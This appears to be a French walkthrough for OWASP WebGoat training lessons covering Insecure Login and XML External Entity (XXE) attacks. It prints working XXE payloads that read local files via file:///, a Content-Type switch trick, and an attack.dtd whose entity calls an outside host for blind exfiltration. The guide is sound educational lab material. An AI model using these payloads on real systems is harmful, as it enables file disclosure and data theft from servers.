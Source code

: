 ##### Insecure Login

2.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Le numéro de leçon ne devient pas vert après validation.

*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, cliquer sur **Log in**.
*   Repérer la requête vers `start.mvc` dans l'onglet _Réseau_ et cliquer sur _Paramètres_.
*   Remarquer les paramètres `{"username":"CaptainJack","password":"BlackPearl"}`.

#### **(A4) XML External Entities (XXE):**

##### XXE

3.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try submitting the form and see what happens  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use ZAP/Burp to intercept the request and try to include your own DTD  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try to include a doctype "(<!DOCTYPE...)" in the xml  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The include can be as follows: <!DOCTYPE user \[<!ENTITY root SYSTEM "file:///"> \]>  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Do not forget to reference the entity  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) In the comment you should references: <comment><text>&root;test</text></comment>

*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, poster un commentaire.
*   Repérer la requête vers `simple` dans l'onglet _Réseau_ et cliquer sur _Modifier et renvoyer_.
*   Modifier le corps de la requête en : `<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>`.

![XXE 3](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/xxe-3.png)

4.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Take a look at the content type  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Does the endpoint only accept json messages?

*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, poster un commentaire.
*   Repérer la requête vers `content-type` dans l'onglet _Réseau_ et cliquer sur _Modifier et renvoyer_.
*   Modifier le corps de la requête en : `<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>`, et modifier l'en-tête `Content-Type: application/json` en `Content-Type: application/xml`.

![XXE 4](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/xxe-4.png)

6. 
Même si ce n'est pas un challenge, une petite erreur s'est glissée dans la leçon, faire attention à rentrer les bonnes URL pour pouvoir effectuer le test. 
  
**attack.dtd**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY ping SYSTEM 'http://host:port/landing?test=HelloWorld' >
```  
  